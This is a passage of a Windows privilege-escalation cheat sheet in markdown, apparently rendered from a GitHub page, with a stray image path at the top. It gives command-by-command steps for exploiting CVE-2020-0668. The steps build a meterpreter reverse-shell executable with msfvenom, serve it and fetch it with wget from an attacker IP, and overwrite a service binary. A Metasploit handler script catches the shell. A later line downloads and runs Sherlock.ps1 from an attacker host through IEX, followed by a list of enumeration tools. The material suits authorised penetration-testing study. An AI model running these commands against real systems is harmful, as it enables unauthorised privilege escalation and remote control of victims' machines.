   - Check for a third party serv that can be leverage. Check perm on a binary `icacls "c:\path\to\leverage-bin.exe"`
  - Generate a malicious file `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ATTACK-IP LPORT=PORT -f exe > leverage-bin.exe`
  - `python3 -m http.server 80` serve the binary
  - Download 2 copy of the binary
    - `wget http://ATTACK-IP/leverage-bin.exe -O leverage-bin.exe`
    - `wget http://ATTACK-IP/leverage-bin.exe -O leverage-bin2.exe`
  - Run the exploit `C:\CVE-2020-0668\CVE-2020-0668.exe C:\Users\user\Desktop\leverage-bin.exe "c:\path\to\leverage-bin.exe"`
  - Check perm of new file `icacls 'c:\path\to\leverage-bin.exe'`
  - Replace with malicious binary `copy /Y C:\Users\user\Desktop\leverage-bin2.exe "c:\path\to\leverage-bin.exe"`
  - Use a Metasploit Resource Script
    - Make a file named handler.rc and put this in it
      ```
      use exploit/multi/handler
      set PAYLOAD windows/x64/meterpreter/reverse_https
      set LHOST <our_ip>
      set LPORT 8443
      exploit
      ```
    - Launch metasploit this the resource script `msfconsole -r handler.rc`
  - Start the service `net start leverage-serv`
  - Even if we get an error we should have a reverse shell in meterpreter

### Tools

#### Executables

- [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.
- [Watson](https://github.com/rasta-mouse/Watson) is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.
- [Seatbelt](https://github.com/GhostPack/Seatbelt) C# project for performing a wide variety of local privilege escalation checks
- [SharpUp](https://github.com/GhostPack/SharpUp) C# version of PowerUp
- [JAWS](https://github.com/411Hall/JAWS)

#### PowerShell

##### Sherlock

[Sherlock.ps1](https://github.com/rasta-mouse/Sherlock) is a powershell script that will give exploit related to the target.  
  It can also be found here on kali if empire is installed `/usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1`
- We can launch it with cmd like this (has to be served through an http server from the attacking machine)  
  `echo IEX(New-Object Net.WebClient).DownloadString('http://ATTACK-MACHINE-IP/Sherlock.ps1') | powershell -noprofile -`
- Launch from Powershell
